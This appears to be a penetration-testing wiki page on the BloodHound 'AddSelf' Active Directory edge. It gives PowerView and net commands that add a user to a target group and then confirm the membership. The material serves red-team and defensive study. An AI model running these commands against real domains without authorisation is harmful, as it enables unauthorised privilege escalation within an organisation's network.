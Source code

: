 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AddSelf

## Information

The principal has the ability to add itself to the target group.

## Exploitation

### Add User to Group

This can be done natively ([opsec considerations](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#id17)) or with [PowerView](../../../../tools/tools/active-directory/powerview.md).

{% tabs %}
{% tab title="PowerView" %}
```powershell
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```
{% endtab %}

{% tab title="net" %}
```sh
net group '<GROUP>' '<USER>' /add /domain
```
{% endtab %}
{% endtabs %}

Verify that the member was added.

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainGroupMember -Identity '<GROUP>'
```
{% endtab %}

{% tab title="net" %}
```sh
net group <GROUP> /domain
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#addself" %}
{% endtab %}
{% endtabs %}
